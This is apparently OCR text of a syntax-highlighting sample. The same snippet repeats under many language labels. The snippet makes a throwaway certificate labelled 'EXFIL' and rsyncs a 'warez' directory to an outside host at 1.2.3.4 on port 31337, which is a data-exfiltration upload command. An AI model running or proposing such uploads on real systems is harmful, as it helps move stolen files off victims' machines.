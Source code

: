 ```abap
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
perl
```perl
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
pgsql
```pgsql
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
php
```php
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
powershell
```powershell
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
prolog
```prolog
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
properties
```properties
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
protobuf
```protobuf
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
python
```python
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
r
```r
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
razor
```razor
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
rdoc
```rdoc
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
ruby
```ruby
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
rust
```rust
```